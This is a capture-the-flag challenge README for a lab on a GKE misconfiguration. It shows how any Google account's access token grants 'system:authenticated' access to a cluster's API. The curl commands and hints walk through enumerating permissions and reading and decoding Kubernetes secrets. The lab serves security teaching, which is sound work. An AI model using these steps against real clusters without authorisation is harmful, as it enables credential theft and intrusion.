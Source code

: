 # Challenge 1: Confidential Cluster

## Introduction

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/...

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer <token>" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets

</details>

<details>
  <summary>Hint 2</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

</details>
